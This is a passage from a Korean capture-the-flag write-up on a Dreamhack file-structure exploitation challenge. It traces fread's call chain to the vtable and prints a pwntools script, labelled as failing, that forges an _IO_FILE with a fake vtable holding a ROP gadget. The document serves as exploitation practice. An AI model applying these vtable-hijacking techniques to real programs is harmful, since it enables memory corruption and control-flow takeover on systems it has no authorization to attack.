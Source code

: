 근데 여기서 답을 찾는데 시간이 좀 걸렸다.  

값을 어떻게 넣을지 감이 안잡혀서 여러 시도를 해봤다.   

- 가젯 체인 짜서 변수 값 바꾸기→ overwrite_me 를 덮기엔 모든 가젯이 없음
- execve로 쉘 실행 → syscall 가젯이 없음

등등 가젯을 이용한 건 가젯이 없어서 만들어지질 않았다.   

```scss
fread()
 └── _IO_fread()
       └── _IO_sgetn(fp, data, n)
             └── _IO_XSGETN(fp, data, n)
                   └── fp->vtable->__xsgetn(fp, data, n)
                           └── _IO_file_xsgetn(...)  ← 파일 읽기

```

그래서 이전 Write up을 계속 읽다가 찾아낸게    
위 구조로 쭉 호출을 하고, 살펴보면 fp, data, n 인자가 쭉 그대로 들고가진다.   

그러면 pop rdi, pop rsi 가젯은 있으니까 이걸 이용하면 되지않나? 라는 생각이 들어서   
xsgetn 에 pop rdi ; ret ; 을 넣고 그대로 해봤는데 안된다.  

<br>

**실패 익스플로잇 코드**

```python
from pwn import *

p = remote('host8.dreamhack.games', 18758)
e = ELF('./iofile_aaw')


p.recvuntil(b'Data')

overwrite_me = e.symbols['overwrite_me']
pop_rdi = 0x400983
pop_rsi = 0x400981

fake_vtable_addr = 0x602250 + 0x100


fake_IO = (
    p64(0xfbad2086)         # _flags
  + p64(0) * 3             # _IO_read_ptr, _IO_read_end, _IO_read_base
  + p64(0) * 3             # _IO_write_base, _IO_write_ptr, _IO_write_end
  + p64(0) * 5             # buffers
  + p64(0) * 2             # marker, chain
  + p64(0)                 # fileno
  + p64(0)                 # flags2
  + p64(0)                 # old_offset
  + p64(0)                 # cur_column
  + p64(0)                 # vtable_offset
  + p64(0) * 6             # dummy
  + p64(fake_vtable_addr)  # vtable
)

fake_vtable = (
    p64(0) * 8          
  + p64(pop_rdi)           # pop rdi 가젯
)


payload = fake_IO.ljust(0x100, b'\x00') 
payload += fake_vtable
```
